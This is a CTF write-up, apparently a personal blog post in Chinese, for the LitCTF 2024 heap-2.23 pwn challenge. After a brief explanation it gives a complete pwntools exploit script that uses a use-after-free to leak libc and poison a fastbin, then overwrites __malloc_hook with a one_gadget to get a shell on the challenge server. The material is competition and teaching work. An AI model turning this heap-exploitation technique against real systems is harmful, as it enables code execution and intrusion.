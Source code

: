 ```yaml
---
title: '[LitCTF2024]heap-2.23'
date: 2024-11-11 13:00:00 +0800
categories: [ctf,pwn]
tags: [uaf,malloc_hook,unsortbin_leaklibc]
---
```

> Problem: [[LitCTF 2024]heap-2.23](https://www.nssctf.cn/problem/5614)

## 思路

edit功能存在一个UAF，通过该漏洞修改fd达到申请任意位置区块的目的，再利用edit功能修改对应区块地址的内容，达到利用目的。
我这里选择了劫持`__molloc_hook`函数，需要注意的是，我们需要找到一个区块匹配所需要的结构体，详细可以调试看看`mallo_hook-35`这个位置，再往后填充，将`one_gadget`覆盖到`__malloc_hook`的位置。

## EXP
```python
from pwn import *
context.terminal=["tmux",'splitw','-h']
context.log_level = 'debug'
#io = gdb.debug('./heap')
io = remote('node4.anna.nssctf.cn',28035)
elf = ELF('./heap')
lib = ELF('/root/tools/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so')

def create(idx,size):
    io.sendlineafter(b'>>',str(1))
    io.sendlineafter(b'?',str(idx))
    io.sendlineafter(b'?',str(size))

def delete(idx):
    io.sendlineafter(b'>>',str(2))
    io.sendlineafter(b'?',str(idx))

def show(idx):
    io.sendlineafter(b'>>',str(3))
    io.sendlineafter(b'?',str(idx))

def edit(idx,content):
    io.sendlineafter(b'>>',str(4))
    io.sendlineafter(b'?',str(idx))
    io.sendlineafter(b'content : \n',content)

create(0,400)   #0
create(1,10)    #1
delete(0)
show(0)
mallo_hook = u64(io.recvuntil(b'\n')[-7:-1].ljust(8,b'\x00'))-0x68
print(hex(mallo_hook))
delete(1)
lib_base = mallo_hook-lib.sym['__malloc_hook']
one_gadget = lib_base+0xf1247

create(2,0x60)
create(3,0x60)

delete(2)
delete(3)

edit(2,p64(mallo_hook-35))
create(4,0x60)
create(5,0x60)
create(6,0x60)
edit(6,cyclic(19)+p64(one_gadget))

create(7,0x60)
io.interactive()
```

## 总结

一开始是想用`fastbin`去做，后来看文章发现忽略了`uaf`可以直接利用，再一个就是要注意申请`malloc`附件的堆块时要符合结构规范
